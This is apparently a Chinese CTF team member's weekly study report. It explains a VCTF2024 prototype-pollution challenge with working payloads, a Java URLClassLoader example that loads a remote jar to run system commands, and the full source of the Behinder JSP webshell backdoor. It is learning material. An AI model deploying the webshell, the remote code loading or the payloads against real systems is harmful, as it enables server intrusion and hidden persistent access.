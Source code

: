 <a name="RJC3l"></a>
# 完成事项
- VCTF一道JS题目继续深入了解JS
- 初步学习Java Classloader等
<a name="kfaNm"></a>
# 如何解决未完成事项

- 周末学
<a name="N3Kq7"></a>
# 下周待做事项

- 继续学习Java基础运行框架
- 复现阿里云CTF和NKCTF
<a name="nwngF"></a>
# 本周学习的知识分享
<a name="j4vWP"></a>
## VCTF2024 hackjs
这是两个漏洞，一个Node14漏洞，可以更改hasOwnProperty，使其报错<br />一个原型链污染[https://github.com/n8tz/CVE-2022-24999](https://github.com/n8tz/CVE-2022-24999)，出现于js中的qs库<br />qs是npm的一个库。里面的stringify() 方法可以将一个json对象直接转为以？和&符连接的形式。
```javascript
const express = require('express')
const fs = require('fs')
var bodyParser = require('body-parser');
const app = express()
app.use(bodyParser.urlencoded({
  extended: true
}));
app.use(bodyParser.json());

app.post('/plz', (req, res) => {

  venom = req.body.venom

  if (Object.keys(venom).length < 3 && venom.welcome == 159753) {
    try {
      if(venom.hasOwnProperty("text")){
        res.send(venom.text)
      }else{
        res.send("no text detected")
      }
    } catch {
      if (venom.text=="flag") {
        let flag=fs.readFileSync("/flag");
        res.send("Congratulations:"+flag);
      } else {
        res.end("Nothing here!")
      }
    }
  } else {
    res.end("happy game");
  }
})



app.get('/',
        function(req, res, next) {
          res.send('<title>oldjs</title><a>Hack me plz</a><br><form action="/plz" method="POST">text:<input type="text" name="venom[text]" value="ezjs"><input type="submit" value="Hack"></form>  ');
        });

app.listen(80, () => {
  console.log(`listening at port 80`)
}) 
```
这道题没有extract()和json.parse，所以不能传入json，会显示类型错误。<br />使用数组，由于qs的库把数组解析为对象，所以造成了漏洞<br />由于至少需要传入3个对象的属性，所以直接传入属性的时候无法让Object.keys(venom).length < 3，所以就需要原型链污染将一个属性设置到对象原型中，就可以不算在venom对象下的属性<br />然后就只用更改hasOwnProperty为任意字符串而不是函数就可以导致报错进入catch部分，所以payload有3个<br />venom[__proto__][text]=flag&venom[welcome]=159753&venom[hasOwnProperty]=1<br />venom[__proto__][welcome]=159753&venom[text]=flag&venom[hasOwnProperty]=1<br />venom[__proto__][hasOwnProperty]=1&venom[welcome]=159753&venom[text]=flag<br />需要注意的是原型链污染要放在传参的最前面，原因未知
<a name="ijZNj"></a>
## ClassLoader基础漏洞
<a name="TtJx2"></a>
### URLClassLoader
来源：[https://javasec.org/javase/ClassLoader/](https://javasec.org/javase/ClassLoader/)<br />URLClassLoader继承了ClassLoader，URLClassLoader提供了加载远程资源的能力，在写漏洞利用的payload或者webshell的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。<br />**TestURLClassLoader.java示例：**
```java
package com.anbai.sec.classloader;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;
/**
 * Creator: yz
*/
public class TestURLClassLoader {
    public static void main(String[] args) {
        try {
            // 定义远程加载的jar路径
            URL url = new URL("https://anbai.io/tools/cmd.jar");
            // 创建URLClassLoader对象，并加载远程jar包
            URLClassLoader ucl = new URLClassLoader(new URL[]{url});
            // 定义需要执行的系统命令
            String cmd = "ls";
            // 通过URLClassLoader加载远程jar包中的CMD类
            Class cmdClass = ucl.loadClass("CMD");
            // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
            // 获取命令执行结果的输入流
            InputStream           in   = process.getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[]                b    = new byte[1024];
            int                   a    = -1;
            // 从进程的输入流中读取数据，将读取的数据暂存到字节数组b中，然后将其写入到ByteArrayOutputStream对象baos中。这个过程会一直进行，直到输入流中没有更多的数据可读，此时in.read(b)会返回-1，表示已经读取到了流的末尾。
            // 读取命令执行结果
            while ((a = in.read(b)) != -1) {
                baos.write(b, 0, a);
            }
            // 输出命令执行结果
            System.out.println(baos.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
远程的cmd.jar中就一个CMD.class文件，对应的编译之前的代码片段如下：
```java
import java.io.IOException;
/**
 * Creator: yz
 */
public class CMD {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }
}
```
程序执行结果如下：
```java
README.md
        gitbook
        javaweb-sec-source
        javaweb-sec.iml
        jni
        pom.xml
```
<a name="Kdq8H"></a>
### JSP自定义类加载后门
<a name="ccY0G"></a>
#### **冰蝎JSP后门：**
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
class U extends ClassLoader {

    U(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}
%>
<%
if (request.getMethod().equals("POST")) {
    String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
    session.putValue("u", k);
    Cipher c = Cipher.getInstance("AES");
    c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
    new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
}
%>
```
<a name="xQxM3"></a>
# 本周自己学习过程中遇到的问题和疑问点
Java学习主要在看书看资料，周末在NKCTF大大的爆零，网上搜出来的CVE需要后台密码才能利用，下周在WP出的时候好好看看
<a name="cHkXO"></a>
# 情感、思考、观点
这周阳了在床上躺了3天，忙学院特长班也忙了2天，广播台轮到我录最难的双语稿子，这周忙忙碌碌的Web学习有点拉下了，争取下周补回来，下周就没有这么多情况了
<a name="NNt53"></a>
# 在团队的感触和建议
在团队感受良好，逐渐融入集体了

